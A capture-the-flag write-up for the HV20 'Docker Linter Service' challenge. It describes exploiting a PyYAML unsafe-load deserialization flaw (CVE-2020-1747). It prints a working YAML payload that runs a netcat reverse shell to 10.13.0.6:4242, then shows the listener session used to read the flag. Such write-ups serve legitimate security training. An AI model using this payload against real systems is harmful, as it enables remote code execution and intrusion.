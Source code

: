 # Day 19 / HV20.19 Docker Linter Service


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: The Compiler ([@the_compiler](https://twitter.com/the_compiler), 
                        <https://bruhin.software/>)
* Tags:   #web-security #exploitation
* Level:  hard

Docker Linter is a useful web application ensuring that your Docker-related
files follow best practices. Unfortunately, there's a security issue in there...

### Requirements

This challenge requires a reverse shell. You can use the provided Web Shell or
the VPN to solve this challenge (see `RESOURCES` on top).

### Resources

* Web Shell v. 2
* Docker Linter Service
* Student VPN instructions



## Solution

Here is a screenshot of the _Docker Linter Service_:

![](screenshot_docker_linter.png){width=100%}

The web service allowed you to upload different kind of docker files in order
to lint them. Posting an arbitrary string like `ladida` instead of an actual
docker file was enough to get a list of the involved tools and libraries:

* `Dockerfile`
    * `hadolint`
    * `dockerfile_lint`
    * `dockerlint.js`

* `docker-compose.yml`
    * `Basic syntax check`
    * `yamllint`
    * `docker-compose`

* `.env files`
    * `dotenv-linter`

After a lot of trial and error attacking the python YAML implementation turned
out to be the right way. There is a [PoC (CVE-2020-1747)] available about it.

[PoC (CVE-2020-1747)]: https://2130706433.net/blog/pyyaml/

The attack works by exploiting a deserialization vulnerability in the PyYAML
library which allows arbitrary code execution and thus including setting up a
reverse shell.

The payload was constructed according to the [script gist] available on the same
webpage as the PoC and a [cheat sheet kinda resource for reverse shells]:

[script gist]: https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1
[cheat sheet kinda resource for reverse shells]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

```python
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('nc 10.13.0.6 4242 -e /bin/sh')"
```

![](screenshot_payload.png){width=100%}

On the other end there was a VM connected via a VPN and listening for an
incoming connection on port 4242:

```sh
# nc -l -p 4242
echo ""; ls

app.py
bin
dockerfile_lint_rules
flag.txt
linting.py
node_modules
package-lock.json
requirements.txt
static
templates

cat flag.txt
HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
```

--------------------------------------------------------------------------------

Flag: `HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}`

